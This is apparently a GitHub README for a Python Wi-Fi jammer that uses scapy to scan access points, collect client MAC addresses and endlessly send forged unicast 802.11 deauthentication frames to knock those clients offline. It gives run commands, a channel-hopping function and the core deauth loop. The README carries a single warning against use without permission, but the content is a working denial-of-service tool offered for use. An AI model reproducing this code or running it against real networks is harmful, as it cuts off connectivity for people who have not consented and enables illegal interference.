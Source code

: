 # 802.11 Wifi Jammer
**Infinitely disconnects clients one by one from a 802.11 network**

(Video guide of this program : https://www.youtube.com/watch?v=u9fdUhFMZRc)

**This program does not send a broadcast de-auth packet using the networks bssid as it is REALLY INEFFECTIVE and rarely works. INSTEAD this program scans the selected network for clients and adds those clients into a list, then infinitely loops through the clients list to send UNICAST DE-AUTH packets to specified clients which in turn in very effective**


**! <ins>DO NOT USE ON A NETWORK WITHOUT PRIOR PERMISSION</ins> !**

Prerequisites
-------------

* Wireless adapter supporting monitor mode and packet injection
* Python with ***scapy*** and ***colorama*** installed

Usage 
------
``` shell
python jammer.py <interface> <noise_filter_flag>
```
* The interface mentioned should have monitor mode already ON.
* The noise_filter_flag could be either 1 (True : noise filter is on) or 0 (False: noise filter is off)
  
Example:
``` shell
python jammer.py wlan0mon 1
```
How To Use
-----------

**The programs works in a three step process:**

### 1) Scanning APs:

* sniffs beacons frames using scapy on the specified interface
* channel hopping is done through a hopper thread which terminates through a daemon boolean flag
``` shell
def channelHopper():	
    while True: 
        channel = random.choice(channels)
        os.system("iw dev wlan0 set channel {}".format(channel))
        with lock:	
            global CURRENT_CHANNEL
            CURRENT_CHANNEL = channel
        if not(daemonFlag):
        	break 
        time.sleep(0.2)
```
### 2) Scanning Selected Network For Clients:
**This involves switching over to the channel of the selected network and extracting for clients bssid using these radio packets:** 
* Qos Frame
* Qos with CCMP Frame
* Control Block Frame
* Null Frame

This is achieved using the **clientFilter** function:

https://github.com/ary27x/WIFI_JAMMER/blob/3aaf282f24d69eee91449ad566a4b627701ea4e0/jammer.py#L130

(Let this run for a couple of minutes)

### 3) Sending De-Authentication Packets:

**Finally the program infinitely loops through the clients list and sends forged de-authentication packet to each through layer 2**

``` shell
while True:
    for client in clients:
        packet = RadioTap()/Dot11(addr1 = client, addr2 = MAC , addr3 = MAC)/Dot11Deauth()
        sendp(packet , iface = IFACE)
```





  




